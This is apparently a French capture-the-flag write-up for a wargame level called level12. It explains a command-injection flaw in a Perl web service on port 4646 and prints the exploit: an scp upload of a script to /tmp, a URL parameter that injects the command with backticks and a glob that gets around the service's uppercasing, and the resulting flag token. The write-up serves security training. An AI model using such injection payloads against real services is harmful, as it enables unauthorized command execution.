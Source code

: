 dans ~ de level12 & /var/www on trouve level12.pl
level12.pl c'est un serveur web qui ecoute sur le port 4646 (comme le level04)
il prend 2 paramatre x & y
x est mis en maj par une regex
x est utiliser pour faire un egrep (grep d'un partern, regex) dans /tmp
il suffit de scp un script dont le nom est MAJ et l'appeler via x comme dans le level04

scp -P 4242 SCRIPT level12@192.168.56.101:/tmp/

http://192.168.56.101:4646/?x=`/*/script`

~$ cat /tmp/flag
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
